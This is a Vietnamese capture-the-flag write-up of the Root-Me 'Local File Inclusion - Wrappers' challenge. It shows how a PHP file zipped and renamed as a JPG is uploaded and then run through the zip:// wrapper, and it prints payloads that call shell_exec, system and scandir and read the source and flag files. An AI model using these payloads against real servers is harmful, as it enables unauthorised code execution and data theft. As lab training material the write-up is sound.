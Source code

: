 # [Local File Inclusion - Wrappers](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Wrappers)

![](./media/image1.png)

Khi thử upload without source, ta nhận được message:

> "Sorry, only JPG images will be accepted. Please use a different service if you do not intend to upload pictures”

Đề bài gợi ý là Wrapper, ta chú ý đến PHP Wrapper. Dó đó thử dụng `php://filter` để get source **index.php** nhưng không khả thi:

![](./media/image2.png)

Sử dụng data wrapper thì bị nhận diện attack còn sử dụng encode base64 thì nhận được lỗi **“page name too long”**:

![](./media/image3.png)

![](./media/image4.png)

Đến đây, chắc có lẽ ta cần sử dụng cổng upload này để upload command lên server, sau đó, dùng wrapper để chạy file. Ta sử dụng đến wrapper **zip://** để đọc file từ zip vì có lẽ server chặn các cổng data mất rồi:

Code `getsource.php`:
```html
<pre><?php show_source('index.php'); ?></pre>;
```

Ta đặt tên là **getsource.php**, sau đó zip file lại **getsource.zip**, rename **getsource.jpg** , sau đó upload lên server:

![](./media/image5.png)

Chú ý đến cấu trúc URL: <http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=8Gjbt40un>

Lúc này, page đang load một filename có id là **8Gjbt40un** khác với image name của ta Server đã upload lên `/tmp/upload/image_id.jpg`. Sử dụng zip wrapper tuy cập đến **/tmp/upload/8Gjbt40un.jpg%23getsource**, server sẽ tự concat thêm ‘.php’ cho ta để có câu request hoàn chỉnh:

*?page=zip://tmp/upload/8Gjbt40un.jpg%23getsource**.php***

![](./media/image6.png)

Tuy nhiên, ta lại nhận được lỗi tên quá dài. Ta cần rename lại thành t.php t.zip t.jpg, sau đó upload lại:

![](./media/image7.png)

***Payload:** ?page=zip://tmp/upload/XoMA4xJDj.jpg%23**t.php***

![](./media/image8.png)

Source không có thông tin gì liên quan đến password cả, giờ thì ta phải thử tìm trong folder chứ index.php vì có thể sẽ có file khác nhưng ta không Path Traversal đc:

**Payload:** `<pre><?php shell_exec('ls -la') ?></pre>;`

![](./media/image9.png)

`shell_exec()` bị block. Ta thử với:

**Payload:** `<pre><?php system('ls -la') ?></pre>;`

![](./media/image10.png)

`system()` cũng bị block. Ta thử với `exec()` nhưng cũng bị block:

![](./media/image11.png)

Không còn cách nào khác, ta sử dụng `scandir()` để list all file trong director:

```php
<pre>
<?php
$path = './';
$files = scandir($path);

foreach($files as $file) {
    echo "<a href='$file'>$file</a>";
}
?>
</pre>;
```

Xong, nó list all ra được và ta có thể thấy được flag:

![](./media/image12.png)

Đọc file flag với:

`<pre><?php show\_source('flag-mipkBswUppqwXlq9ZydO.php'); ?></pre>;`

![](./media/image13.png)

![](./media/image14.png)

- Flag: "****************************"
